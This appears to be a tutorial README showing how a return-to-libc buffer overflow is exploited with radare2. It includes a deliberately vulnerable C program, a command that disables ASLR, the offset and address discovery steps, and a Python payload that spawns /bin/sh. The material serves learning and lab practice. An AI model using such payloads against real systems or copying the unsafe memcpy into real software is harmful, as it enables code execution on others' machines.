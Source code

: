 ## Return-to-libc with radare2 with no ASLR ##

The exploit is based on the descriptions by Saif El-Sherei: <https://www.exploit-db.com/docs/28553.pdf>.
Read this pdf for details on how return to libc works in detail.
This document focuses on using radare2 for the exploit.

### Compiling ###

```
% cat bufoverflow.c                             :(
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[])
{
    char buf[256];
    memcpy(buf, argv[1],strlen(argv[1]));
    printf(buf);
}
% gcc -m32 -mpreferred-stack-boundary=2 bufoverflow.c -o bufoverflow
```

The idea is to overwrite the return address of the main function with a function address we took from the libc.

We compile a 32 bit binary to make the task easier, because otherwise the function addresses we need to pass would contain zeros, and `strlen` would return a smaller number of chars than we initially wanted to `memcpy`.
Furthermore, with `-mpreferred-stack-boundary=2` we tell GCC to align the stack to a 4-byte boundary.
If we specified  `-mpreferred-stack-boundary=4`, the stack would be aligned to a 16-byte boundary, which would change the amount of A's we need to pass to the binary to be exploited.

Furthermore, we have to deactivate the ASLR. To do this system-wide, zero has to be written to the right proc file.
```
% echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

### Finding the right offset ###

The buffer is 256 chars wide. The frame pointer (ebp) is pushed to the stack as part of the function prologue, which adds another 4 byte. Furthermore, ebx (4 byte again) is saved by gcc as a callee-saved register.

```
0x08048466      55             push ebp
0x08048467      89e5           mov ebp, esp
0x08048469      53             push ebx
0x0804846a      81ec00010000   sub esp, 0x100
```

In sum, we have to pass 264 random chars (usually A's are used) to the program, followed by the 4 byte of new return address we want to overwrite the original address with.

```
% ./bufoverflow `python -c "print 'A'*260"`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%
```

When passing 268 A's, the return address is overwritten. We can check that using the linux tool `strace`.

```
% strace ./bufoverflow `python -c "print 'A'*268"` 
....
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
+++ killed by SIGSEGV +++
[1]    9950 segmentation fault  strace -f ./bufoverflow `python -c "print 'A'*268"`
```

### Finding the symbol addresses ###

Basically, we want to execute `system("/bin/sh")`, using the symbols we already have in the libc.
Therefore, we want to put the following data on the stack.

```
| 264 garbage-A's | addr_system | 4 byte garbage | addr_string_bin_sh |
```

First we need to find the address of the function `system()` and the string `/bin/sh` in the libc.
We start radare2 in debug mode (`radare2 -d PROGNAME`).

```
% radare2 -d bufoverflow
Process with PID 7286 started...
= attach 7286 7286
bin.baddr 0x56555000
Using 0x56555000
asm.bits 32
Continue until 0x5655557d using 1 bpsize
hit breakpoint at: 5655557d
```

In radare2, `-d PROGNAME PROGARGS` has to be the last option passed, since otherwise the following arguments are interpreted as arguments to the program to be debugged instead of to radare2.

The program arguments can also be passed inside of radare2 using the command `> ood foo`.


The command `dcu main` (debug continue until) executes the program until main is reached. In that manner, we can be sure that the libraries are already loaded when we want to analyze them.
Or you just put `e dbg.bep=main` into your `~/.radare2rc`, so that each program started in debug mode will break when `main()` is reached.

Next, we search for the address of the function `system` (dmi = debug memory).
```
[0x5655557d]> dmi libc system
vaddr=0xf7efcd70 paddr=0x00113d70 ord=246 fwd=NONE sz=68 bind=GLOBAL type=FUNC name=svcerr_systemerr
vaddr=0xf7e23b40 paddr=0x0003ab40 ord=628 fwd=NONE sz=55 bind=GLOBAL type=FUNC name=__libc_system
vaddr=0xf7e23b40 paddr=0x0003ab40 ord=1461 fwd=NONE sz=55 bind=WEAK type=FUNC name=system
```
The syntax is `dmi LIB_NAME SYMBOL_NAME`.
The `system()` address in my case is 0xf7e23b40.

_In my case, and error code 1 was returned in radare2 when searching symbols in the library. The solution was to copy the binary to another directory. No idea, why that worked._
```
[0xf7e67b06]> dmi libc system
error code 1
```

Next, we search for the address of the string "/bin/sh" in the libc.
The radare2 command for searching strings is `/ STRING`.
To search the string starting from a certain address, execute `/ STRING @ address`.
```
[0x5655557d]> dmi
0x56555000 /tmp/bufoverflow
0xf7de9000 /lib/i386-linux-gnu/libc-2.24.so
0xf7fd9000 /lib/i386-linux-gnu/ld-2.24.so
[0x5655557d]> / /bin/sh @0xf7de9000
Searching 7 bytes from 0x00000000 to 0xffffffffffffffff: 2f 62 69 6e 2f 73 68
Searching 7 bytes in [0xf7de9000-0xf7f9a000]
hits: 1
0xf7f45dc8 hit0_0 .b/strtod_l.c-c/bin/shexit 0canonica.
```

An equivalent chain of commands is seeking to the address where the libc is mapped and performing the string search there.
```
[0x5655557d]> s 0xf7de9000
[0xf7de9000]> / /bin/sh
Searching 7 bytes from 0x00000000 to 0xffffffffffffffff: 2f 62 69 6e 2f 73 68
Searching 7 bytes in [0xf7de9000-0xf7f9a000]
hits: 1
0xf7f45dc8 hit2_0 .b/strtod_l.c-c/bin/shexit 0canonica.
```

The address of the string is therefore `0xf7f45dc8`.

### Scripting the input ###
With a python script we can construct the input and directly pass it to the binary.

```
% cat input.py
import struct

addr_shellstr=struct.pack("<I", 0xf7f45dc8)
addr_sys=struct.pack("<I", 0xf7e23b40)

print 'A'*264+addr_sys+'D'*4+addr_shellstr
```

```
% ./bufoverflow `python input.py`
$
```

We can also directly pass the input the binary.
```
% ./bufoverflow `python -c "print 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@;\xe2\xf7DDDD\xc8]\xf4\xf7'"`
```

The reason why we have to use python here is that otherwise the shell is interpreting the hex values and they don't get passed to the binary.
